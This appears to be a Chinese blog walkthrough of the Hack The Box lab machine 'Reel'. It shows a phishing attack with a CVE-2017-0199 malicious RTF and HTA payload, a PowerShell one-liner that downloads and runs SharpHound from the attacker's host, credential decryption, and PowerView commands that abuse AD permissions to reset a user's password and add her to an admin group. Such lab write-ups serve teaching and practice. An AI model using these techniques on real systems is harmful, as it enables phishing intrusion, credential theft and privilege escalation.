 ```yaml
---
title: Reel
date: 2021-12-24 11:32:51
tags: Hack The Box
top: true
categoreies: 邮箱钓鱼
---
```


## 信息收集

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-14 05:18 EST
Nmap scan report for 10.10.10.77
Host is up (0.30s latency).
Not shown: 9997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp open  ssh     OpenSSH 7.6 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:20:c3:bd:16:cb:a2:9c:88:87:1d:6c:15:59:ed:ed (RSA)
|   256 23:2b:b8:0a:8c:1c:f4:4d:8d:7e:5e:64:58:80:33:45 (ECDSA)
|_  256 ac:8b:de:25:1d:b7:d8:38:38:9b:9c:16:bf:f6:3f:ed (ED25519)
25/tcp open  smtp?
| fingerprint-strings: 
|   Hello: 
|     220 Mail Service ready
|     EHLO Invalid domain address.
|   Help: 
|     220 Mail Service ready
|     DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|   NULL: 
|_    220 Mail Service ready
| smtp-commands: REEL, SIZE 20480000, AUTH LOGIN PLAIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port25-TCP:V=7.91%I=7%D=11/14%Time=6190E2F5%P=x86_64-pc-linux-gnu%r(NUL
SF:L,18,"220\x20Mail\x20Service\x20ready\r\n")%r(Hello,3A,"220\x20Mail\x20
SF:Service\x20ready\r\n501\x20EHLO\x20Invalid\x20domain\x20address\.\r\n")
SF:%r(Help,54,"220\x20Mail\x20Service\x20ready\r\n211\x20DATA\x20HELO\x20E
SF:HLO\x20MAIL\x20NOOP\x20QUIT\x20RCPT\x20RSET\x20SAML\x20TURN\x20VRFY\r\n
SF:");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   301.22 ms 10.10.14.1
2   301.21 ms 10.10.10.77

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 185.69 seconds
```

<!--more-->

发现开放了21端口，可以匿名登录，并且在documents目录下发现了两个docx文件，我们将其下载下来并使用exiftool查看内容如下![在这里插入图片描述](https://img-blog.csdnimg.cn/15c476e67c4941c6b76d60c03fdede70.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
readme.txt文件告诉我们有人正在等待 .rtf 文件并将打开它们进行审查，因为考虑到机器上正在运行 SMTP 服务，这可能是我们的目标，具有网络钓鱼攻击。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c858f787033a4c5b8a8cbbe73d598b86.png)

查阅官方文档发现，AppLocker可以阻止可执行文件和脚本

```bash
AppLocker procedure to be documented - hash rules for exe, msi and scripts  (ps1,vbs,cmd,bat,js) are in effect.
```

我们发现Windows Event Forwarding.docx这个文件中存在一个邮箱地址`nico@megabank.com`
![在这里插入图片描述](https://img-blog.csdnimg.cn/14102687e160477884fd2f3e6c8910a6.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

根据刚刚readme.txt的文件内容，我们可以尝试将rtf文件发送到这个地址上，我们从application字段中发现我们可以使用word文档的方式进行创建。并且我们在网上搜索看到，关于rtf文件漏洞利用是已经披露的漏洞编号`CVE-2017-0199`，此漏洞允许创建恶意 rtf 文档，在打开文档时启动 HTA（超文本应用程序)有效负载，Github 上有一个用于制作利用此漏洞的恶意文档的 Python 工具包，但也有一个 Metasploit 模块，我仍然将使用 Python 脚本。

## 漏洞利用

首先我们创建一个hta的载荷
![在这里插入图片描述](https://img-blog.csdnimg.cn/b6c156c3e5e84eebb3b7207a29673574.png)
本地开启http服务器
![在这里插入图片描述](https://img-blog.csdnimg.cn/ebf7fdbfa46043bb84f2a0e1c331c6c7.png)

然后利用这个hta脚本，创建rtf文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/bf21d9b792054d399fe94052c21c3129.png)
最后发送钓鱼邮件进行获取权限

```bash
sendEmail -f 0xdf@megabank.com -t nico@megabank.com -u Test -m "Hey, take a look at this new format procedure" -a document.rtf -s 10.10.10.77 -v
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/f64aa5ef2a984a4e92fd8dfed197da16.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发送钓鱼邮件并开启监听，我们得到了nico账户的用户权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/6965f266fe7341beb4fd71506ff9335b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 提权到TOM权限

我们从Nico账户的桌面上看到一个cred.xml文件，文件内容包含了password字段内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/b971324dcaa14613a8d91aa6b4997923.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
PowerShell 有一个称为 PSCredential 的对象，它提供了一种存储用户名、密码和凭据的方法。还有两个函数Import-CliXml和Export-CliXml，用于将这些凭据保存到文件中并从文件中恢复它们。该文件是Export-CliXml，我们发现Tom的密码是`1ts-mag1c!!!`

```bash
C:\Users\nico\Desktop>powershell -c "$cred=Import-CliXml -Path cred.xml;$cred.GetNetworkCredential() | Format-List *"
powershell -c "$cred=Import-CliXml -Path cred.xml;$cred.GetNetworkCredential() | Format-List *"

UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

因为目标主机开放了22端口，因此我们可以连接主机的远程服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0ef87585054476281e5aa1595fa284e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在tom的桌面的AD audit文件夹下发现了一个有趣的文件内容，还有一个BloodHound文件夹
![在这里插入图片描述](https://img-blog.csdnimg.cn/67be2e3fd4494a14bc46cd3a6af8eb45.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e9b9cfa8736d42788e6f32b6d3b628fa.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
经过查阅文章发现，bloodhound通过csv文件形式保存文件的，都是2.0版本以前的了，那么我们现在有两个选择，一个是在目标主机上安装旧版本的bloodhound，二是将收集到的数据上传到我们攻击机上进行分析，我选择的是第二种方式。

首先我们将目标的脚本加载到内存中，绕过powershell的策略限制。收集到的信息保存在当前目录的一个压缩包中。

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/sharphound/SharpHound.ps1')
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/44243984d10a4293a08aebd5b9748298.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
为了传输方便，我们在本地开启smb服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/65746cbe84ba4b048fb124b74a55a741.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在攻击机上开启bloodhound后，将压缩包拖进去进行分析，点击`Shortest Paths to High Value Targets`。为了方便筛选，我们选择tom到admin的提权路径和nico到admin的路径进行分析
![在这里插入图片描述](https://img-blog.csdnimg.cn/29bd464348754983b4412b33ca42a996.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/399172cccb7243948e1b64abf136697b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我知道 claire 对 Backup_Admins 组具有 WriteDacl 权限。我可以用它把她加到群里，但是事先我们先得连接到claire这个用户上。

## 提权到Administrator

首先，我们将自己设置为 claire 帐户的所有者，以便我们可以更改她的属性；然后我们更改 claire AD 对象的访问控制列表 (ACL) 以授予我们自己 (Tom) 重置 claire 密码的权限；然后我们为该帐户选择一个新密码并将其转换为 SecureString 格式，这就是 PowerShell 用于密码的格式；我们可以使用我们选择的一个更改 claire 的密码；为了将用户添加到组，我们必须提供有效的用户凭据，因此我们声明一个 PSCredential 对象来包含 claire 的用户名和密码，因为她是对 Backup_Admins 组具有写访问权限的人；最后我们使用它来将自己添加到 Backup_Admins 组

```bash
PS C:\Users\tom\Desktop\AD Audit\BloodHound> import-module .\PowerView.ps1
PS C:\Users\tom\Desktop\AD Audit\BloodHound>  Set-DomainObjectOwner -Identity claire -OwnerIdentity tom                         
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-ObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword  
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $password= ConvertTo-SecureString 'Password_123!' -AsPlainText -Force              
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -Identity claire -AccountPassword $password                 
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $creds = New-Object System.Management.Automation.PSCredential('HTB\claire',$passwor
d)                                                                                                                              
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainGroupMember -Identity 'Backup_Admins' -Members 'claire' -Credential $cred
s
```

whoami /all查看到我们已经处于backup_admins组中了
![在这里插入图片描述](https://img-blog.csdnimg.cn/9ff1c27957d54fe3b71bfa62126f58b1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
但是我们还是无法查看root.txt的内容，我们却可以查看`Backup Scripts`的内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/b4491a3626c84023b3f122732aa44800.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
但是我们在`BackupScript.ps1`中找到管理员的密码
![在这里插入图片描述](https://img-blog.csdnimg.cn/3285fc7c314a4f98840bb0bc74f27320.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
直接登录管理员账号
![在这里插入图片描述](https://img-blog.csdnimg.cn/f96c6ddacbff4775947400c9dfd03743.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
